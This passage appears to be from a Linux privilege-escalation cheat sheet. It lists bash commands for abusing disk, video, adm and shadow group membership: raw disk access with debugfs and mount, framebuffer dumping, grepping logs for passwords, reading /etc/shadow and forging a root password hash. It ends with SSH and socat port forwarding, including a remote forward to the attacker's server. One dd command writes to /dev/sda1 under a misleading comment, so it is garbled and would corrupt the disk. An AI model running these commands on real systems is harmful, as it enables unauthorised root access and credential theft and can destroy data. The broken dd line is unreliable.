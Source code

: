 #### Disk/DiskAdmin Group

```bash
# If you're in the disk group, you have raw access to disks
sudo debugfs /dev/sda1

# Mount a disk directly
mkdir /tmp/privesc
mount /dev/sda1 /tmp/privesc
cd /tmp/privesc
# Now you can access all files

# Create device to read/write files with root permissions
dd if=/dev/zero of=/dev/sda1 seek=$(stat -c %s /etc/shadow) bs=1 count=1
```

#### Video Group

```bash
# Members of the video group can access GPU memory, which may contain sensitive data
cat /dev/fb0 > /tmp/screen.raw
# Analyze the raw framebuffer data

# Also access HDMI/display info that may contain sensitive data
cat /sys/class/graphics/fb*/virtual_size
```

#### ADM Group

```bash
# Members of adm can read log files, which may contain sensitive information
find /var/log -type f -readable -exec grep -i -E "password|pass|pwd|user|login" {} \;

# Look for sudo password entries
grep -i "sudo" /var/log/auth.log
```

#### Shadow Group

```bash
# If you're in the shadow group
cat /etc/shadow
# Create a new /etc/passwd entry with root UID/GID but a password you know
openssl passwd -1 -salt xyz newpassword
# Add new user with hash or modify root's hash 
```

##  Port Forwarding for Internal Services

```bash
# Check for locally listening services that might be running as root
netstat -tunlp
ss -tunlp

# Local port forwarding with SSH (requires SSH access)
ssh -L <local_port>:127.0.0.1:<target_port> <username>@<target>
# Example: ssh -L 8080:127.0.0.1:8080 user@target

# Remote port forwarding with SSH (useful for callbacks)
ssh -R <remote_port>:127.0.0.1:<local_port> <username>@<your_server>

# Port forwarding with socat
socat TCP-LISTEN:<local_port>,fork TCP:127.0.0.1:<target_port>

# Port forwarding through a SOCKS proxy with SSH
ssh -D <local_port> <username>@<target>
# Then configure proxychains to use this SOCKS proxy
```